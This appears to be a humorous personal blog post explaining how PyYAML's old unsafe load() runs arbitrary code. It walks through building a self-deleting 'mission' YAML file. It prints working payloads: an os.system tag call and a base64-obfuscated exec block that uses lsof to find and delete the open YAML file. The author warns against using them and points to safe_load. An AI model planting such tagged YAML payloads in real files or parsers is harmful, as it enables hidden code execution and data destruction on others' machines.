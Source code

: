 ```yaml
---
layout: post
date: 2019-12-11 08:52:40 +0000
title: This YAML file will self-destruct in five seconds!
summary: YAML allows you to execute arbitrary code in a parser, even if you really really shouldn't.
tags:
  - python
  - code crimes

colors:
  index_light: "#527ab2"
  index_dark:  "#8ebaec"
---
```


If you know the *Mission: Impossible* films (or before that, the 1966 TV series), you've surely heard the famous phrase, "This tape will self-destruct in five seconds. Good luck, Jim."
As soon as our hero hears his instructions, the tape emits a cloud of smoke and is rendered useless.

But would this work in 2019?
Modern spies don't use analogue recorders and reel-to-reel tape, they use computers and digital files.
Could we equip them with a message that would self-destruct as soon as they read it?
The answer: yes, but you really shouldn't.

{%
  picture
  filename="tape_recorder.jpg"
  alt="A tape recorder with smoke coming out of it."
  width="750"
%}

It's easy to create an executable file that destroys itself as soon as it runs.
The challenge is to do it in a format that looks innocuous -- at a casual glance, it looks like a plain text file, with no trickery or traps.

Let's talk about [YAML], which is a language for serialising data.
You can use it to store data structures like lists, maps, and text -- similar to JSON or XML -- and it's often used for config files and the like.
It's meant to be human-readable, which is why it's so popular for storing config.
Here's a small example:

```yaml
name: "lexie"
cat_count: 2

cats:
  - name: "Bailey"
    colour: "ochre"
  - name: "Bertie"
    colour: "black"
```

[YAML]: https://en.wikipedia.org/wiki/YAML

The basic YAML syntax allows you to specify simple data structures (lists, maps, and so on), but what if you want to serialise something more complicated?

You can use [tags] in your YAML file to tell the parser that it should treat the data as a more complex object.
For example, the `!square` tag here could tell the parser that rather than treating this value as a string, it should create an instance of the user-defined `Square` class:

```yaml
!square "0,0,10,10"
```

[tags]: https://yaml.org/spec/1.2/spec.html#id2761292

You can also have language-specific tags.
If you run this through a Python YAML parser, it creates a Python tuple instead of a list:

```yaml
!!python/tuple [triangle, square, circle]
```

To do this, your parser needs to be executing arbitrary code, and that's always a recipe for security vulnerabilities.
If you trust your YAML, this is less of an issue -- but if you're parsing YAML from unknown sources, this could be used to run malicious code on your machine.

For a long time, the default `load()` function in the [PyYAML module][pyyaml] was unsafe, and would run any Python code in the YAML it received.
This meant you could call system functions from YAML:

```python
import yaml

yaml.load("!!python/object/new:os.system [echo BOOM!]")
```

but rather than calling `echo BOOM!`, the attacker might call something more unpleasant, like `rm`.

There was a `safe_load()` function that would only load a subset of YAML that didn't feature arbitrary code execution, but it wasn't until earlier this year that safe loading [became the default][deprecation].

[pyyaml]: https://pypi.org/project/PyYAML/
[deprecation]: https://github.com/yaml/pyyaml/wiki/PyYAML-yaml.load(input)-Deprecation

Ever since I learnt about this behaviour, I've idly wondered if you could use this to cause the YAML file to delete itself, and yesterday I got that working.
This is shocking, disgusting code, and you shouldn't use it in practice -- but it proves the idea.

Using `os.system` is powerful, but the builtin [`exec()` function][exec] is even more powerful.
If you pass this a string, it tries to execute the string as Python code.
Always be careful when using this function, and *never* call it with untrusted input.

Let's call `exec()` from a YAML file:

```yaml
!!python/object/new:exec [
  name = "Mr Phelps";

  print("Hello %s." % name)
]
```

If you pass this to `yaml.load()` with a vulnerable version of PyYAML (< 5.1), it prints the text `Hello Mr Phelps.` -- but we could do anything we like here.

[exec]: https://docs.python.org/3/library/functions.html#exec

We could, say, look up the ID of the parent process (the Python interpreter that's doing the parsing), and then use [lsof][lsof] to see what files that process has open:

```yaml
!!python/object/new:exec [
  import os;

  parent_process_id = os.getppid();

  os.system("lsof -p %s" % parent_process_id);
]
```

[lsof]: https://alexwlchan.net/man/man8/lsof.html

And if we can see what files a process has open, well, we could see what YAML file it has open for parsing, and delete it.
I tried to write something like this:

```yaml
!!python/object/new:exec [
  import os;
  import subprocess;
  import sys;
  import time;

  parent_process_id = os.getppid();

  open_files = subprocess.check_output(
      ["lsof", "-p", str(parent_process_id)]
  ).decode("utf8");

  filenames = [
      line.split()[-1]
      for line in open_files.splitlines()
  ];

  yaml_files = [
      f
      for f in filenames
      if f.endswith((".yml", ".yaml"))
  ];

  for yf in yaml_files:
      print(
          "This file will self-destruct in five seconds. Good luck, Jim.",
          file=sys.stderr
      );
      time.sleep(5);
      os.unlink(yf)
]
```

but you get errors from the YAML parser -- the square brackets, quotes, and commas look like they might be part of the YAML syntax, and the parser gets confused.

I hit this problem a couple of times, and I tried to be clever and write my Python code to avoid any of those characters, but it severely limits what you can do.
(Among other things, no commas means you can't call functions with more than one argument.)

We can get round this by doubling down on a bad idea.
If you want to get a string through an environment that only allows a limited set of characters, you can often use [base64 encoding][base64].
This encodes your text in a form that only uses alphanumeric characters, plus three punctuation characters (`+`, `/`, and `=`).
If we put base64 encoded source in the YAML file, decode it at runtime, then call `exec()` a second time -- that would get past the YAML parser.

Here's what that would look like:

```yaml
!!python/object/new:exec [
  import base64;

  encoded_source = b"... some base64 encoded source ...";
  source = base64.b64encode(encoded_source);

  exec(source)
]
```

[base64]: https://en.wikipedia.org/wiki/Base64

And if we do this to the code I was trying to run above, here's the message we end up with:

```yaml
from: "Lexie <lexie@alexwlchan.net>"
to: "Jim Phelps <jim.phelps@imf.org>"

message: "Beware Swiss villains bearing lasers!"

action:
  !!python/object/new:exec [
    import base64;

    encoded_source = (
        b"aW1wb3J0IG9zOwppbXBvcnQgc3VicHJvY2VzczsKaW1wb3J0IHN5czsKaW1wb3J0IHRp"
        b"bWU7CgpwYXJlbnRfcHJvY2Vzc19pZCA9IG9zLmdldHBwaWQoKTsKCm9wZW5fZmlsZXMg"
        b"PSBzdWJwcm9jZXNzLmNoZWNrX291dHB1dCgKICAgIFsibHNvZiIsICItcCIsIHN0cihw"
        b"YXJlbnRfcHJvY2Vzc19pZCldCikuZGVjb2RlKCJ1dGY4Iik7CgpmaWxlbmFtZXMgPSBb"
        b"CiAgICBsaW5lLnNwbGl0KClbLTFdCiAgICBmb3IgbGluZSBpbiBvcGVuX2ZpbGVzLnNw"
        b"bGl0bGluZXMoKQpdOwoKeWFtbF9maWxlcyA9IFsKICAgIGYKICAgIGZvciBmIGluIGZp"
        b"bGVuYW1lcwogICAgaWYgZi5lbmRzd2l0aCgoIi55bWwiLCAiLnlhbWwiKSkKXTsKCmZv"
        b"ciB5ZiBpbiB5YW1sX2ZpbGVzOgogICAgcHJpbnQoCiAgICAgICAgIlRoaXMgZmlsZSB3"
        b"aWxsIHNlbGYtZGVzdHJ1Y3QgaW4gZml2ZSBzZWNvbmRzLiBHb29kIGx1Y2ssIEppbS4i"
        b"LAogICAgICAgIGZpbGU9c3lzLnN0ZGVycgogICAgKTsKICAgIHRpbWUuc2xlZXAoNSk7"
        b"CiAgICBvcy51bmxpbmsoeWYpOwogICAgcHJpbnQoIvCfkqUiKTs="
    );
    source = base64.b64decode(encoded_source);

    exec(source)
  ]
```

If Jim Phelps parses this using his special IMF-approved message reader:

```python
import yaml  # PyYAML < 5.1

with open("message.yml") as f:
    message = yaml.load(f)
    print(message)
```

then he sees our message, and then the file will burst into (metaphorical) smoke before his eyes!

This code is dastardly, terrible, and nobody should use it.
It abuses unsafe YAML loading and the `exec()` function, neither of which should ever be used with untrusted input -- or ideally at all.
It's also quite fragile; `lsof` behaves differently across platforms, and this likely won't work on macOS or Windows.

Please don't use this for anything serious.
If it explodes, I will disavow any knowledge of your code.
